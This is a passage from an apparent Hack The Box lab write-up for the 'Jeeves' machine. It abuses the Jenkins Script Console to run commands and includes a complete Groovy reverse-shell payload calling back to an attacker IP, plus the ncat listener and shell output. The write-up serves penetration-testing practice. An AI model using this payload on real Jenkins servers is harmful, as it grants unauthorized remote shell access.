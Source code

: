 Jenkins has a scripting console, which you can access by going to `Manage Jenkins` => `Script Console`

![Jenkins Script Console](https://i.imgur.com/xj7w5jO.png "Jenkins Script Console")

You can write scripts in the `Groovy Scripting Language`. I searched for `groovy script run command example` or if you just want to skip straight to the shell search `groovy script reverse shell` 

Testing to see if we have code execution...

```groovy
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'powershell.exe $PSVERSIONTABLE'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```
Output:

![](https://i.imgur.com/1o04hYr.png)

We confirmed that we have code execution. Now lets shell it.

From my search of  `groovy script reverse shell`, I came across this [Github gist](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76)
-- change the `host` and `port` parameter to match your settings, and hit "Run" in the script console & you will get a reverse shell.

```groovy
String host="10.10.15.30";
int port=8282;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

_Getting Reverse shell via Jenkins Script Console_
```
root@dastinia:~/htb/jeeves# ncat -lnvp 8282
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::8282
Ncat: Listening on 0.0.0.0:8282
Ncat: Connection from 10.10.10.63.
Ncat: Connection from 10.10.10.63:49723.
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\.jenkins>whoami /all
whoami /all

USER INFORMATION
----------------

User Name      SID
============== ===========================================
jeeves\kohsuke S-1-5-21-2851396806-8246019-2289784878-1001


GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes
==================================== ================ ============ ==================================================
```